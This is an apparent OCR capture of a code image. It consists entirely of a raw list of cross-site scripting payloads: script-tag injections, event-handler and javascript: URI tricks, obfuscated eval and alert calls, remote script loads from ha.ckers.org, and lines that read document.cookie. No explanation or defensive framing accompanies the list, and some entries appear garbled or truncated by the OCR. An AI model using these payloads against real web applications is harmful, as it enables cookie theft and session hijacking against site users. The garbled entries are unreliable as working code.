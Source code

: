 <img src \/onerror = alert(2)
x[/\\/]+=!/\\/?{}:(/ert/)[-1]
\u5000$=\u5001$?alert:\u5001$
\u55FD=RegExp(/eval/)[\u55FF]
'xxxalert(1)'.match(/[^x]+/);
i=alert;(i[-5]['eval'](i))(1)
<b <script>alert(1)</script>0
¼script¾alert(¢XSS¢)¼/script¾
<br size=\"&{alert('XSS')}\">
\\'); alert(\'xss\');var x=\'
<IMG SRC="livescript:[code]">
&{document.vulnerable=true;};
delete [a=alert],delete a(1) 
<SCRIPT>alert('XSS');</SCRIPT>
<;BODY ONLOAD=alert(';XSS';)>;
<input type="text" USER_INPUT>
/onload=alert(/xss/)></iframe>
default xml namespace=(e)=eval
<script>alert(»XSS«)</script> 
Works for any global object :D
Function('a','\al\ert(a)')(1) 
<SCRIPT SRC=//ha.ckers.org/.j>
scriptalertdocumentcookiescript
\";document.vulnerable=true;;//
alert("8:"+document["cookie"]);
\u50003=0[\u50002+'l'](\u50001)
x[/\\/]=(/:/)[-0]?{}:(/al/)[-1]
<form id="location" href="bar">
<IMG STYLE='no\xss:noxss("/*");
alert("1"["replace"]('1','9'));
a=<test>alert(1)</test> 
='><script>alert("xss")</script>
try{IE=window=!1}catch(e){IE=!0}
[].sort.call(null).alert('lose')
<script<{alert(1)}/></script </>
for(_=console.dir;_==_;_(_))_(_)
default xml namespace = alert(1)
<object classid="clsid:..." cod.
" onmousemove=alert("XSS") "> <"
<SCRIPT> alert(“XSS”); </SCRIPT>
<;SCRIPT SRC=//ha.ckers.org/.j>;
<;A HREF=";//google";>;XSS<;/A>;
[1,'alert(1)'].reduceRight(eval)
javascript:alert(function()1+1);
g:0in~/*for another*/~alert(!!1) 
<IMG SRC=JaVaScRiPt:alert('XSS')>
</br style=a:expression(alert())>
'">><script>alert('XSS')</script>
<div id=&#42&#x2f&#13&#40&#47XSS1
<body onload=&lt;!--&#10alert(1)>
new Function("return '\141'")(); 
\u55FC=RegExp(/alert(1)/)[\u55FF]
<IMG SRC=javascript:alert("XSS")>
>"'><script>alert(‘XSS')</script>
<;IMG SRC=";livescript:[code]";>;
>"><script>alert("XSS")</script>&
<<SCRIPT>alert("XSS");//<</SCRIPT>
<input onfocus=write(1) autofocus>
<_ />/<_ />+~~~~~~<_{alert(1)} /> 
foo\’; alert(document.cookie);//’;
typeof setTimeout('alert(this)',0)